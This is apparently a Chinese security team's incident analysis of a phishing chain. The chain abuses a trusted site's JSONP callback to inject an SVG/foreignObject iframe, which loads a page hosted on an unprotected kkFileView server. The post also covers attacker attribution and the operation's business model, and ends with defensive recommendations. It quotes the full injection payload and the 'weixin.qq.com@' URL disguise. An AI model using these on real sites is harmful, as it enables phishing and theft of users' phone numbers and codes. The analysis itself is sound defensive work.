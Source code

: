 #  SVG 嵌套钓鱼溯源分析：基于可信域名 XSS 漏洞的黑产分发链追踪  
原创 小松X1aoS0ng  Test安全团队   2025-06-20 06:37  
  
## 一、事件概述  
  
近期捕获到一个疑似钓鱼链接  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGK8M2mpcY3N1Riba7MiaCgzyMhG3X5DXPwnAuTFyeqSAvcxKmcp98elR6g/640?wx_fmt=jpeg&from=appmsg "")  
  
链接结构如下：  
```
http://weixin.qq.com@hc.reg.xxx.com/api/item;is1ikwdkd94xz22di7fnxpaahc89/getItemByIdFromJsonp.action?callback=<svg>...</svg>
```  
  
  
表面看似“微信官方网站”，实则指向 hc.reg.xxx.com 域名，参数中嵌入 SVG + <iframe> 结构，落地页面为：  
```
http://www.xxxxx.com.cn:8012/demo/Today1921.html?c=Z83mr1
```  
  
  
通过对该 URL、iframe 加载内容与相关服务器进行溯源，我们发现这是一起典型的利用可信域名 XSS 或 JSONP 接口漏洞实现钓鱼分发的案例，背后涉及灰产平台的 **分发跳转器、手机号收集**  
、**交易截图伪造**  
等行为。  
## 二、SVG 注入载荷分析  
  
该钓鱼链接的核心攻击点位于 callback 参数，其被注入了一段 SVG+HTML 内容：  
```
<svg width="100%" height="600" xmlns="http://www.w3.org/2000/svg">
    <foreignObject width="100%" height="100%">
              <div xmlns="http://www.w3.org/1999/xhtml">
           <head>
                            <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no" />
           </head>
           <body style="margin:0;padding:0;overflow:hidden"><iframe src="http://www.xxxxx.com.cn:8012/demo/Today1921.html?c=Z83mr1" width="100%" height="100%" frameborder="0" style="border:none" /></body>
       </div>
    </foreignObject>
</svg>
```  
  
**🎯 攻击目的**  
- **伪装**  
：利用 SVG 中的 <foreignObject> 标签嵌入真实 HTML 内容，加载恶意 iframe；  
  
- **欺骗用户**  
：通过 URL 中的 weixin.qq.com@ 迷惑用户以为是微信官方链接；  
  
- **加载钓鱼页**  
：iframe 指向攻击者控制的远程恶意页面；  
  
- **兼容移动端**  
：使用 <meta viewport> 提高在手机上的渲染效果。  
  
## 三、落地页面分析：重庆某协会 kkfileview 服务  
  
钓鱼 iframe 实际加载地址为：  
```
http://www.xxxxx.com.cn:8012/demo/Today1921.html?c=Z83mr1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGKib7GzHOvsAmASncd1ISV92wqF2Djvu83g5z8iaibZ7jhnoluGMYXibrl3Q/640?wx_fmt=jpeg&from=appmsg "")  
  
经查询发现该 IP 对应的是重庆某协会网站，部署了 kkFileView 文档预览服务，并未做访问控制，存在 **未授权访问漏洞**  
。攻击者将钓鱼页面部署在 /demo/ 路径下，隐藏于合法的文档演示路径中。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGKmjEGoBicrsZzdBMwA2EYIZtTyq35oIVjz4m4ibfHZzyoXTkCdknSdzAg/640?wx_fmt=jpeg&from=appmsg "")  
## 四、行为追踪与溯源过程  
  
**1. 页面行为：**  
- 页面会根据请求头 User-Agent 或 Referer 判断来源；  
  
- 自动重定向至不同的 **伪装支付页面、跑分链接或个人交易页**  
；  
  
- 页面加载后立即发起网络请求，疑似用于记录手机号或投放其他内容。  
  
**2. 链接跳转分析：**  
  
通过分析 /demo/Today1921.html 中的跳转代码，发现页面内容被高度压缩并通过参数 ?c= 控制跳转逻辑，例如：  
  
var target = decode(c); window.location = target;  
  
其中 c=Z83mr1 实际上是跳转规则的一个索引或短链 ID，映射到攻击者后台维护的钓鱼分发链接池。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGKsbBViaefGM3eky7S0ibhJagNeyWxLEYt4ia8NNo4kk6JJNmepU9UIYLKg/640?wx_fmt=jpeg&from=appmsg "")  
## 五、攻击者画像与域名溯源  
  
**1. Telegram 留痕**  
  
在钓鱼页面源码中发现部分注释与 JS 注入标识，包含攻击者的 Telegram 账号和支付方式，初步判断该人可能提供：  
- 域名防红服务  
  
- 钓鱼模板代挂  
  
- 防封自动跳转服务  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGKDHgXFcuT7XZfCkM5wglGziaJI2aVPXicncFGseDiarbSciazyGnJjFTzTw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGK6aTTV0td4rtfwUM9icFfBDrnNwGNnxTE2dyywdicduAZksPXSeWq5IIw/640?wx_fmt=jpeg&from=appmsg "")  
  
**2. 钱包交易记录追查**  
  
**获利应该才3W多点**  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGKdr1x77tiawbtApiagfUrFn4wH2q0PI1s41fqN853b16ehhfgXZlm5vqw/640?wx_fmt=jpeg&from=appmsg "")  
  
**2. 域名绑定记录追查**  
  
在群组中翻到一个视频，存在一个域名  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGKy0xpvr0dRWxeCMaRoWtRaXxn9yujJ7RibYLKm3XF8qhcrWiagI4T7iaCg/640?wx_fmt=jpeg&from=appmsg "")  
  
使用域名历史查询平台查找所绑定历史子域名、CNAME与 IP 地址关联记录，发现：  
- 攻击者曾挂载多个钓鱼页面在相同 IP；  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGKpXlXADVyLKU3G2mcaFribped3NQiacUoDdT0hUdLVc5Xbj2rnvqmo8FQ/640?wx_fmt=jpeg&from=appmsg "")  
- 某域名可通过ICP备案信息查到实名注册人。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGK0tU7d7RdlSt1iayAMm7mJ0Olv559gfWnEJduj5b84VbVjOP81GIfvjQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGKAC5NKQ2FdJuiajibjkibuFIicuy1uRXiaRQ9hqQZ2Ocg0zlKq3UOOg5PrSw/640?wx_fmt=jpeg&from=appmsg "")  
## 六、灰产商业模式揭示  
  
本次钓鱼链接涉及的运作模式为典型的“钓鱼跳转分发服务”：  
  
<table><thead><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border: 1px solid rgb(223, 226, 229);margin: 0px;padding: 0px;"><th style="box-sizing: border-box;padding: 6px 13px;font-weight: bold;border-width: 1px 1px 0px;border-top-style: solid;border-right-style: solid;border-left-style: solid;border-top-color: rgb(223, 226, 229);border-right-color: rgb(223, 226, 229);border-left-color: rgb(223, 226, 229);border-image: initial;border-bottom-style: initial;border-bottom-color: initial;margin: 0px;"><span cid="n88" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 72.6406px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">环节</span></span></strong></span></span></th><th style="box-sizing: border-box;padding: 6px 13px;font-weight: bold;border-width: 1px 1px 0px;border-top-style: solid;border-right-style: solid;border-left-style: solid;border-top-color: rgb(223, 226, 229);border-right-color: rgb(223, 226, 229);border-left-color: rgb(223, 226, 229);border-image: initial;border-bottom-style: initial;border-bottom-color: initial;margin: 0px;"><span cid="n89" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 492.359px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">内容</span></span></strong></span></span></th></tr></thead><tbody><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border: 1px solid rgb(223, 226, 229);margin: 0px;padding: 0px;"><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n91" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 72.6406px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">🧱 搭建</span></span></span></td><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n92" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 492.359px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">通过全网扫描攻击kkfileview 等平台搭建开放跳板</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border: 1px solid rgb(223, 226, 229);margin: 0px;padding: 0px;background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n94" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 72.6406px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">🎭 伪装</span></span></span></td><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n95" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 492.359px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">使用可信网站的 JSONP/XSS 漏洞挂载 SVG iframe 注入</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border: 1px solid rgb(223, 226, 229);margin: 0px;padding: 0px;"><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n97" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 72.6406px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">🔗 分发</span></span></span></td><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n98" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 492.359px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">攻击者生成短链或跳转链接传给诈骗团伙</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border: 1px solid rgb(223, 226, 229);margin: 0px;padding: 0px;background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n100" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 72.6406px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">📱 钓鱼</span></span></span></td><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n101" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 492.359px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">iframe 引导用户进入钓鱼支付/登录页，窃取手机号/验证码</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border: 1px solid rgb(223, 226, 229);margin: 0px;padding: 0px;"><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n103" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 72.6406px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">💰 收费</span></span></span></td><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n104" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 492.359px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">提供“域名防红 + 渠道跳转”服务，对诈骗分子收费</span></span></span></td></tr></tbody></table>  
## 七、安全建议  
  
针对该类型钓鱼事件，建议相关平台与机构采取以下措施：  
1. **禁用或过滤 JSONP callback 参数中的 HTML 字符或 SVG 标签**  
；  
  
1. **关闭或限制公开文档预览服务（如 kkFileView）对 /demo/ 路径的访问**  
；  
  
1. **加强对 iframe 引入外链的 CSP 控制策略**  
；  
  
1. **利用安全网关拦截带 @ 字符的可疑 URL（如     weixin.qq.com@ 形式）**  
；  
  
1. **主动监测 SVG + foreignObject 结构在用户交互页面中的存在情况**  
。  
  
## 八、总结  
  
本事件揭示了黑产团伙如何通过一个极具迷惑性的 SVG 注入攻击，借助可信站点的开放接口，构建钓鱼跳板，诱导用户访问恶意 iframe 页面。通过技术分析与溯源，我们不仅识别了漏洞，还追踪到了背后的部署者及其盈利模型。  
  
建议下游厂商立即封堵相关攻击路径。  
  
该文章仅作学习，并对相关域名做脱敏处理，如有侵权请及时联系删除  
  
  
  
